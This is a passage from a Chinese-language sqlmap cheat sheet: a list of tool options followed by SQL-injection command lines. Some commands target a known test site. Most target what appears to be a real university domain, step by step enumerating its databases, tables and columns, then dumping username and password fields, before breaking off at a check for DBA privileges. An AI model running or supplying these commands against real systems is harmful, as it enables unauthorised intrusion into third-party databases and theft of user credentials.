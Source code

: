 --update 更新SqlMap

--save file保存选项到INI配置文件

--batch 从不询问用户输入，使用所有默认配置。

Miscellaneous（杂项）：

--beep 发现SQL注入时提醒

--check-payload IDS对注入payloads的检测测试

--cleanup SqlMap具体的UDF和表清理DBMS

--forms 对目标URL的解析和测试形式

--gpage=GOOGLEPAGE 从指定的页码使用谷歌dork结果

--page-rank Google dork结果显示网页排名（PR）

--parse-errors 从响应页面解析数据库管理系统的错误消息

--replicate 复制转储的数据到一个sqlite3数据库

--tor 使用默认的Tor（Vidalia/ Privoxy/ Polipo）代理地址

--wizard 给初级用户的简单向导界面

注入点：http://testasp.vulnweb.com/Login.asp

几种注入方式：./sqlmap.py -r search-test.txt -p tfUPass

sqlmap -u http://testasp.vulnweb.com/Login.asp --forms

sqlmap.py -u http://testasp.vulnweb.com/Login.asp --data "tfUName=1&tfUPass=1"

注入点：http://jxjy.bfa.edu.cn/bm/newslist.php?cid=7

获取所有数据库名称

sqlmap.py -u http://jxjy.bfa.edu.cn/bm/newslist.php?cid=7 --dbs

获取当前数据库名称

sqlmap.py -u http://jxjy.bfa.edu.cn/bm/newslist.php?cid=7 --current-db

获取当前用户名称

sqlmap.py -u http://jxjy.bfa.edu.cn/bm/newslist.php?cid=7 --current-user

获取全部表段

sqlmap.py -u http://jxjy.bfa.edu.cn/bm/newslist.php?cid=7 --tables -D 数据库名称

获取全部字段

sqlmap.py -u http://jxjy.bfa.edu.cn/bm/newslist.php?cid=7 --columns -T 表段 -D 数据库名称

获取字段内容

sqlmap.py -u http://jxjy.bfa.edu.cn/bm/newslist.php?cid=7 --dump -C username,password -T 表段 -D 数据库名称

1)判断当前用户是否是dba
